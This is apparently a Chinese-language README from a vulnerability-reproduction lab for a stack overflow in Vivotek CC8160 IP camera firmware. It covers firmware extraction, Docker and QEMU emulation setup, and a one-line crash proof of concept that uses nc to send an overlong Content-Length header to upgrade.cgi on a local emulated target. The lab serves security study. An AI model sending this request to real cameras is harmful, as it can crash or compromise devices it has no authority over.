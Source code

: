 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --rm --privileged -p 8888:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 armel gdbserver 并复制到 system-emu/tools 目录。

```sh
# cp baseImage/gdbserver/7.11.1/armel-gdbserver-7.11.1 CVE-2020-3331/system-emu/tools/gdbserver

# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/armel
$ docker build -t qemu-system:armel .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --rm --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
